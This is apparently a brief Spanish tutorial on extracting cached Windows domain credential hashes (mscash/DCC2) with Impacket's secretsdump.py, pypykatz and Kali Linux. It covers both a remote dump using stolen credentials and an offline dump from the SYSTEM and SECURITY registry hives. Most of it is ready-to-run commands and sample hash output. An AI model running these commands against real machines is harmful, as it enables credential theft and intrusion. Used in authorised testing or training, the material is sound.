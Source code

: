 ### 🔧 Instalación de herramientas necesarias en Kali Linux

#### 1. Instalar `Impacket` (si no lo tienes):

```bash
sudo apt update
sudo apt install impacket-scripts -y
```

O desde GitHub:

```bash
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
pip install .
```

#### 2. Instalar `pypykatz` (opcional):

```bash
pip install pypykatz
```

---

### 🎯 ¿Cómo hacer el volcado de mscash?

#### Opción 1: Usando `secretsdump.py` (remotamente)

Si tienes acceso con credenciales a la máquina:

```bash
secretsdump.py gustavo:MiContraseña123@192.168.1.100
```

📌 Entre los resultados, verás entradas tipo `DCC2` (mscash2):

```
[*] Dumping cached domain logon information (domain/username:hash)
DOMINIO\gustavo:$DCC2$10240#gustavo#8f4e2fd68c1184f748df7e1a3f1de88f
```

Ese es el **hash mscash** del usuario `gustavo`.

---

#### Opción 2: Volcado offline (desde archivos SYSTEM y SECURITY)

Si tienes acceso físico o por red a los archivos de Windows:

```bash
secretsdump.py -system SYSTEM -security SECURITY LOCAL
```

> Estos archivos están en:
>
> - `C:\Windows\System32\Config\SYSTEM`
> - `C:\Windows\System32\Config\SECURITY`

---